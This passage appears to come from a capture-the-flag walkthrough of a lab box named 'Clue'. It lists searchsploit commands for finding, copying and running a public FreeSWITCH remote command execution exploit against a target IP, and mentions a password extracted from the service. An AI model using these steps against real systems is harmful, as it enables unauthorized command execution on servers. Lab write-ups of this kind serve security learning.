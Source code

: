 ![](Clue/12.png)

We were able to extract the current freeswitch password, but unfortunately it didn't worked on any user's SSH session. Trust me when I say, this rabbit holes or failures are 70% of red teaming, and if you get frustrated by them then try to not break your system. We will still keep this password in our notes, because it might be useful in future.

**Commands:**
- `searchsploit Freeswitch`
- `searchsploit -m windows/remote/47799.txt`
- `mv 47766.txt 47799.py`
- `python3 47799.py [ip] [command]`

![](Clue/13.png)